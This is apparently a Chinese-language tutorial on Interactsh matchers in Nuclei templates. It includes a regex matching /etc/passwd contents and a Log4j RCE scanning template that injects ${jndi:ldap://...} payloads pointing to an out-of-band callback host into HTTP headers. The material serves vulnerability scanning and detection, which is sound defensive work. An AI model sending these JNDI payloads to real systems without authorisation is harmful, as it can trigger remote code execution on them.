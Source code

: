 Interactsh 交互可以与`word`，`regex`或`dsl`使用以下部分的匹配器 / 提取器一起使用。

<table><thead><tr><th>part</th></tr></thead><tbody><tr><td>interactsh_protocol</td></tr><tr><td>interactsh_request</td></tr><tr><td>interactsh_response</td></tr></tbody></table>

###### interactsh_protocol

值可以是 dns、http 或 smtp。这是每个基于 interactsh 的模板的标准匹配器，dns 通常是通用值，因为它本质上是非侵入性的。

###### interactsh_request

interact.sh 服务器收到的请求。

###### interactsh_response

interact.sh 服务器发送给客户端的响应。

Interactsh DNS 交互匹配器示例：

```
matchers:
      - type: word
        part: interactsh_protocol # Confirms the DNS Interaction
        words:
          - "dns"
```

交互内容上的 HTTP 交互匹配器 + 单词匹配器示例

```
matchers-condition: and
matchers:
    - type: word
      part: interactsh_protocol # Confirms the HTTP Interaction
      words:
        - "http"

    - type: regex
      part: interactsh_request # Confirms the retrieval of etc/passwd file
      regex:
        - "root:[x*]:0:0:"
```

之前在 github 找的一个 log4j2 扫描模板就用到了这个。

```
id: log4j-fuzz-head-poc

info:
  name: log4j-rce漏洞
  author: xxx
  severity: critical
  tags: apache,rce

requests:
  - raw:
      - |
        GET / HTTP/1.1
        Host: {{Hostname}}
        {{log4j_payloads}}

      - |
        POST / HTTP/1.1
        Host: {{Hostname}}
        {{log4j_payloads}}
    payloads:
      log4j_payloads:
        - 'X-Client-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Remote-IP: ${jndi:ldap://{{interactsh-url}}/info}'
        - 'X-Remote-Addr: ${jndi:ldap://{{interactsh-url}}/info}'
```